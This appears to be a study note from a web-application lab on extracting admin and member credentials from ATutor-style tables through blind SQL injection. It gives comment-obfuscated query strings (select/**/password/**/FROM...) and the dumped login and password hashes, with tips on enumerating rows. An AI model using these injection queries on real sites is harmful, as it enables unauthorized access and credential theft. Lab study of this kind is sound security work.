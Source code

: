 # Obtaining Hashes

- Database Schema

```bash
Admins table: AT_admins;
Users table: AT_members;

Columns with credentials are login and password. 
```

- Member table

```bash
Query String: "select/**/login/**/FROM/**/AT_members"
Result: teacher

Query String: f"select/**/password/**/FROM/**/AT_members/**/WHERE/**/login=\"{username}\""
Result hash: 8635fc4e2a0c7d9d2d9ee40ea8bf2edd76d5757e
```

- Admin table

```bash
Query String: "select/**/login/**/FROM/**/AT_admins"
Result: teacher

Query String: f"select/**/password/**/FROM/**/AT_admins/**/WHERE/**/login=\"{username}\""
Result hash: f865b53623b121fd34ee5426c792e5c33af8c227
```

If more users are present, likely can use some form of LIMITs to choose which user to dump. 

- Can use `count(*)` SQL injections to check the number of items in table.

[Blind SQLi Reference](SQL%20Injection%206e2122d7317142d4a87506b87ce2f227/Blind%20SQLi%20Reference%20395e0cf3b80a42bcb6786ad66c33a965.md)
